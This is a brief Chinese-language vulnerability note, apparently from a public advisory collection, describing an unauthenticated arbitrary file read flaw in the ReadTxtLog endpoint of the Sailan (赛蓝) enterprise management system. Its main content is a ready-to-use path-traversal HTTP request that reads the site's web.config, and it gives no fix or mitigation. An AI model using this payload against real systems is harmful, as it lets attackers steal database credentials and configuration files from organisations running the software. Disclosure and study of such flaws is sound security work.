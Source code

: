 **漏洞描述：**

赛蓝企业管理系统ReadTxtLog接口处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

**影响版本：**

赛蓝企业管理系统

**Payload：**

```jsx
GET /BaseModule/SysLog/ReadTxtLog?FileName=../web.config HTTP/1.1
```

---
